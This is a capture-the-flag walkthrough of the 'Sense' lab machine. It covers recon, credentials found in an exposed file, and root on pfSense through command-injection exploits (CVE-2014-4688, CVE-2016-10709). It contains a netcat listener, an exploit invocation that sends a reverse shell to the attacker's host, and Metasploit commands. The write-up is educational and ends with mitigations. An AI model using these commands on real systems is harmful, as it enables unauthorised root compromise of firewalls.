


## Machine Information

**Machine name:** Sense
**Machine IP:** 10.10.10.60
**Difficulty:** easy
**Genre:** Linux

## Reconnaissance: the beginning
Reconnaissance (Recon) refers to the process of gathering information about a target system, application, or network before attempting an attack or exploitation. This is typically the first phase in any type of hacking and penetration testing.

### Types of Reconnaissance
**1. Passive Reconnaissance -** Gathering information without directly interacting with the target.
**2. Active Reconnaissance -** Directly interacting with the target to extract information.

For this machine, we will be using a mix of both types of reconnaissance. 

### 1. Ports and Services Scan
It is a crucial part to scan for open ports and services in a machine, because most of the time they are the initial entry point for gaining access to the system. Looking for unusual ports or outdated service version will eventually lead us to a vulnerability, and then we will generating an exploit for it. 

#### Nmap Scan
I performed a intense nmap scan on the machine, and the command used was the following:
`sudo nmap -sV -sC -O 10.10.10.60 > nmapSense.txt`

**Understanding the command:**
- `-sV` - Prints version and other details of a service
- `-sC` - Tries all possible scripts associated with the service (NSE scripts)
- `-O` - OS scan

**Output:**


As we can see that the nmap output is not too much. The only ports or services which are open are 80/http and 443/https. I felt shocked, because most of the time there are atleast 4 services running, but with this machine we only have 2 service which are so obvious ones. Anyways, without thinking much I started looking for vulnerabilities, so I started looking at *lighttpd 1.4.35*, but I was unable to find anything interesting. 

### 2. Web Recon
After finding nothing interesting, I immediately opened the web server that was running on the machine. I opened the webserver and went to "View Source", but had no luck in finding any sweet or suspicious comment. I decided to have a look at the webserver's interface, so I started playing with the login page that we were provided.


As seen clearly, this is a **pfSense Firewall** login page, no doubt why this machine's name is Sense. After trying cross-site scripting (XSS), SQL injection, and trying default credentials I thought to brute-force it, and failing terribly in those two things I realised maybe I am missing something. I didn't wanted to waste my time in continuous thinking, so I performed a well-known technique of active recon, subdir search.

I used the following command to perform subdir scan:
`gobuster dir --url https://10.10.10.60/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -x .txt`

**Understanding the command:**
- `dir` - specifies a directory search
- `--url` - argument to specify the url that we want to scan for subdirs
- `--wordlist` - Specifies the wordlist that we want to use
- `-k` - this is a special option for this machine, because the SSL certificate for this site was expired. To ignore it, we are using this option so it doesn't bother us during the scan
- `-x` - Specifies which extension to look for, here I am looking for .txt files. It is because text files are generally in plaintext and they might give us sensitive information


Intensively scanning through subdomains, we found two interesting text files that are accessible to public. What are these text files? 
- changelog - These are special files that are used to keep a track of changes made to the domain, such as recent updates, patches, or development changes. It should not be publicly accessible, or else it can leak sensitive plans.
- system-users - The name is enough to suggest the purpose of the file. It stores data related to the users, such as any new user settings, or configuration of a new user.



Analysing the changelog.txt sub-file, we find a very crucial statement, which is *"2 of 3 vulnerabilities have been patched"*, it means that 1 known vulnerability still remain unfixed, but we do not have any version information about pfSense, hence we cannot determine the vulnerability right now. I started looking at another file



Woah! that is a big reveal. We found credentials in system-user file. Following are the credentials mentioned here:
```
username = rohit
password = pfsense (default)
```

I tried login into the pfsense using the credentials that we just found, and I was able to successfully access the pfSense firewall web-dashboard. I started looking within all tabs, but I found nothing interesting except a proper version for the pfSense that was being used.


I have marked the version section with a red box, and we can clearly see that it is a **pfSense 2.1.3-Release** version that works on **FreeBSD 8.3-Release-p16**. Looking at the version, I was getting a feeling that it is vulnerable, and also we were previous told that 2 vulnerabilities were fixed out of 3, so definitely this is our entry point. I started searching and googling for available vulnerabilities and exploits.

## Gaining Access: the end

Initially, I started googling "pfSense Vulnerabilities" without specifying the version, I found few interesting things, but I wasn't confirmed if they will work or not. I then searched for vulnerabilities and exploits specific to the pfSense version. After keeping some exploits and vulnerabilities in my mind and deciding to go through a well-known tool for searching exploits, I performed the following command:
`searchsploit pfSense`


**Links:**
1. [exploitdb - CVE-2014-4688](https://www.exploit-db.com/exploits/43560)
2. [CVE-2014-4688](https://nvd.nist.gov/vuln/detail/CVE-2014-4688)

I have marked the exploit that I thought will definitely work, why? Firstly, it exactly fits our version (2.1.3) and secondly, it is a python script which is easy to edit so we can make a unique exploit if needed. I immediately imported this exploit using the following command and checked for correct options in the program, then exploited it.

Command to download the exploit:
`searchsploit -m php/webapps/43560.py`

Command for exploitation (with a listener):
- `nc -lnvp 4444`
- `./43560.py --rhost 10.10.10.60 --lhost 10.10.14.11 --lport 4444 --username rohit --password pfsense`


From the above image it is clear that I opened a listener on port 4444 for all incoming traffic to any of my IP address, and on second terminal I ran the exploit and it failed! Why? simplest explaination is that the SSL certificate of the target is expired very long ago, so the exploit cannot bypass the request for a valid SSL certificate, and due to that it will not work. 

I was already exhausted from searching the correct exploit, because there were many but to determine which CVE or vulnerability will work for this specific machine was kind of tricky. So, I started reading the descriptions and requirements for the exploit to get an idea whether it will get us in or not, and this point is very important. You must have enough information about the target to determine or build a perfect exploit for it. I looked multiple CVEs, but there was one CVE which was giving the vibe of a perfect exploit.


**Links:**
1. [CVE-2016-10709](https://nvd.nist.gov/vuln/detail/CVE-2016-10709)
2. [metasploit exploit](https://www.rapid7.com/db/modules/exploit/unix/http/pfsense_graph_injection_exec/)

As seen clearly in the image, it is the exploit that works for pfSense before 2.3. This was the point that was putting me under doubt, because the version is definitely in our favour, but with a huge difference. Our version is 2.1.3 and this exploit covers all versions before 2.3, so there can be chances that it might fail. Fortunately, we are hackers, we eventually try everything.


After reviewing the CVE a little more on google search engine, I found a metasploit exploit associated with the CVE and this hyped my confidence. So, I immediately opened metasploit and started figuring out what options will perfectly work for me. The commands I used were as follow:

```
msfconsole
search pfsense (5th one was our exploit)
use 5
show options
set RHOSTS 10.10.10.60
set LHOST 10.10.14.11
set USERNAME rohit
exploit
```


*Woah! Time for celebration.* We were finally able to achieve root access, but I would have felt little more adrenaline if there was privilege escalation. Anyways, staying happy with what we achieved, I explored for the final part, **THE FLAGS**. For this machine, we have two flags, one for the user and another for the root. Before that, let me explain the setup for metasploit that I used:

**Metasploit options:**
- **RHOSTS** - It goes for remote host, and your target's IP will go here.
- **LHOST** - In most cases you will ignore this, but I am using a dedicated VPN connecting me to the target so I will have to use this. Here, the VPN IP we have will be added.
- **USERNAME** - This exploit only works after authenticating a valid user. We already have one, so we are providing the username.
- **Why no PASSWORD?** - We are not setting the password for the username because the default password taken by metasploit for this exploit is "pfsense", which is same as our user. If your victim's password is something different then you will have to set it too.
- **shell** - If you carefully look then we got a metasploit shell initially, but I wanted an interactive shell on the system and this command does the exact same thing that I want.

##### The Flags:


I have hidden the flags because I want people go and try themselves and do not just copy paste the flags. I also have described every detail about vulnerabilities identified, how to mitigate them and what should we learn from this under the conclusion section.

## Conclusion

### Information Disclosure
We cannot find any significant vulnerability or exploit for the services running on the ports, but we did found some sensitive information stored on publicly accessible subdirectories on the domain. There are many subdirectories within a domain, and sometimes some of these files are created to store sensitive information, but they can be accessed by anyone if proper security measures are not placed.

#### Mitigation Strategies:
A proper mitigation for this situation is crucial if you have sensitive files, because that information can be used for launching further attacks. This will increase the chance for the success ratio of the attack.

**Secure Directory and File Access**
1. *Disable directory listing in web servers:*
	- Apache: Add `Options - Indexes` in `.htaccess`
	- Nginx: Use `autoindex off;`
2. *Restrict access to sensitive files via permissions*
3. *Regularly scan for exposed files and restrict or remove them*

### Improper Neutralization of Special Elements
This is about the vulnerability that we were not able to execute properly, and the CVE associated with it is **CVE-2014-4688**. I will be explaining the vulnerability and how the exploit works in detail, because hacking is not all about getting access, it is more about understanding the system.

#### Vulnerability: what went wrong?
When a product constructs all or part of a command using externally-influenced input from an user input, but it does not neutralize or incorrectly neutralizes special characters that could modify the intended command when it is sent to a downstream component.

In this specific product, there are multiple command injection vulnerabilities that were discovered in the pfSense WebGUI during a security audit. They are as follow:
- Command Injection in **diag_dns.php**
- Command Injection in **diag_smart.php**
- Command Injection in **status_rrd_graph_img.php**

##### Implementation:
A user granted limited access to the pfSense web GUI including access to affected pages can leverage these vulnerabilities to gain increased privileges, read arbitrary files, execute commands, or perform other alterations.

The host value passed via POST on **diag_dns.php** during the "Create Alias" action is not properly sanitized. A specially-crafted string sent as the "hostname" value can trigger the vulnerability and it can eventually lead to command injection.

An unused "update e-mail" function is still active on the **diag_smart.php** page and its variables are not properly sanitized. A specially-crafted string sent as the "smartmonemail" value can trigger the vulnerability.

The database value passed to **status_rrd_graph_img.php** is not properly sanitized. A specially-crafted string sent as the "database" value can trigger the vulnerability.

##### Mitigation: CVE-2014-4688
1. **Architecture and Design** - Use library calls rather than external processes to recreate the desired functionality.
2. **Input validation** - Assume all inputs is malicious. Use an "accept known good" input validation policy, where you will have a list of acceptable inputs.
3. **System Configuration** - Assign proper permissions that prevent the user from accessing privileged files.
4. **Upgrading to new release** - Upgrade to pfSense 2.1.4 release.

##### Why this exploit was useless for us?
If you have managed to read this writeup till here then I am glad we have a good news. I did show previously that how this exploit was giving an error of ssl certificate. During the time of exploitation, I immediately jumped on another exploit because I didn't wanted to spend my time on the failed exploit, and wanted to keep it for later research purpose.

Initially, I thought maybe the command injection is sanitized because they did mentioned there were 3 vulnerabilities identified, from which 2 were patched. Fortunately, it was not the case, rather the ssl error was solely due to the expiration of the SSL certificate that the target had, and the exploit was built on Python using *requests* module. I modified the exploit because I have pretty good experience with Python, and I was successfully able to run the exploit and get root access.


In the following image, I edit two statements that were requesting to the login page and getting the response. I added the following argument `verify=False` in the end of both the statement, so it will skip the SSL certificate verification, and if there are no other security measures then we will get a shell, because we are sending a specially-crafted payload that has a value of **/bin/sh**.


Yey! We were able to exploit the system using this exploit also. I know this is out-of-syllabus because we already have managed to get root access, but hacking is all about exploring. My advice is, don't just hack a system. If something works, see why it works and if something does not work, see why it does not work. 

### Arbitrary Code Execution
Arbitrary Code Execution is similar to Improper sanitization, it is a security vulnerability that allows an attacker to run any code of their choice on a target machine. This typically happens due to a software flaw, such as a buffer overflow, deserialization vulnerability, or command injection. If exploited, an attacker can gain control over the system, steal data, or escalate privileges.

#### CVE-2016-10709: Success
CVE-2016-10709 is a command-injection vulnerability exists in **status_rrd_graph_img.php**. This allows authenticated WebGUI users with privileges for status_rrd_graph_img.php to execute commands in the context of the root user.

A user on pfSense version 2.2.6 or earlier, granted limited access to the pfSense web GUI including access to status_rrd_graph_img.php via the "WebCfg - Status: RRD Graphs page" permission, could leverage this vulnerability to gain increased privileges, read other files, execute commands, or perform other alterations.

pfSense 2.3 is unaffected as the file in question was obsolete between the time of the original fix and the release of pfSense 2.3.

### Mitigation: CVE-2016-10709
There are two most efficient mitigations I can think related to this vulnerability, and they are as follow:
1. **Restrict access** - Restrict access to status_rrd_graph_img.php file for users.
2. **upgrade to pfSense 2.3** - Best mitigation is to upgrade to pfSense 2.3, because even restriction can be bypassed.

I conclude this writeup here, I have mentioned many things which were not related to this challenge but they were linked to it. After all, it is about understanding the hack, not just about the flags. Please make sure to share this with your hacker friends, let us learn together and grow.
